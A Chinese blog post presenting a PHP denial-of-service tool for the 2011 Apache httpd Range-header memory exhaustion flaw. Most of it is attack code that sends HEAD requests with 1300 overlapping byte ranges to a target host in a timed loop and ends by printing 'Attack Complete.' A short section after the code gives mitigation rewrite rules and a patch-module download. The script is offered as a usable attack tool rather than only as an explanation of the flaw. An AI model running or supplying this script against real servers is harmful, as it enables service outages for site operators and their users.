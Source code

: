 ```yaml
---
layout: post
title: "Apache全系曝拒绝服务漏洞-PHP利用工具"
description: "Apache Dos PHP Exhaustion"
category: scripts
tags: ["Apache", "PHP"]
---
```


通过构造指定长度的range头使得apache无法释放链接，占满MaxClients后便无法再继续提供服务。

<pre>
//Apache httpd Remote Denial of Service (memory exhaustion)
//By Johnlenshaw(www.xiaozhenliang.com)
//Year 2011
$host = $_GET['host'];
set_time_limit(0);
$exec_time = $_GET['time'];
$time = time();
$max_time = $time+$exec_time;
$out = '';

for($i = 0;$i < 1300;$i ++)
{
        $out .= ",5-$i";
}

$out = "HEAD / HTTP/1.1\r\nHost: $ip\r\nRange:bytes=0-".$out;
$out = $out."\r\nAccept-Encoding: gzip\r\nConnection: close\r\n\r\n";

while(1){
                if(time() > $max_time)
                {
                        break;
                }

                $fp = fsockopen("tcp://$ip", 80, $errno, $errstr, 5);

                if($fp)
                {
                        fwrite($fp, $out);
                        fclose($fp);
                }
}
echo "Attack Complete.";
</pre>

**临时的应对措施:**

可配置下列rewrite规则：

RewriteEngine on

RewriteCond %{HTTP:Range} bytes=0-.* [NC]

RewriteRule .? http://%{SERVER_NAME}/ [R=302,L]

或执行一下语句：

wget http://people.apache.org/~dirkx/mod_rangecnt.c

/usr/local/apache/bin/apxs -i -a -c mod_rangecnt.c

重启apache即可。以上具体apxs路径需要按照实际环境填写。

此次漏洞对编译过header模块并限定header长度/编译加载mod_security模块的无效。
